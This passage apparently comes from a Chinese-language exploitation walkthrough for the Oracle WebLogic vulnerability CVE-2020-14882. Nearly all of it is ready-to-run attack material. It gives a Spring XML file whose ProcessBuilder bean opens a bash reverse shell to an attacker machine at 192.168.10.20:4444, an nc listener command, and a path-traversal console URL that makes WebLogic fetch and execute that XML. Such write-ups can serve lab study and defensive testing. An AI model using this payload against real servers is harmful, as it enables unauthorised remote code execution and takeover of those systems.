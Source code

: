 XML 文件内容如下：

```xml linenums="1"
```xml title="14882-shell-rce.xml"
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/192.168.10.20/4444 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

![](images/cve-2020-14882-10.png)

在攻击机器上监听4444端口：

```bash
nc -lvnp 4444
```

然后通过访问如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://192.168.10.10:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.10.20/14882-shell-rce.xml")
```
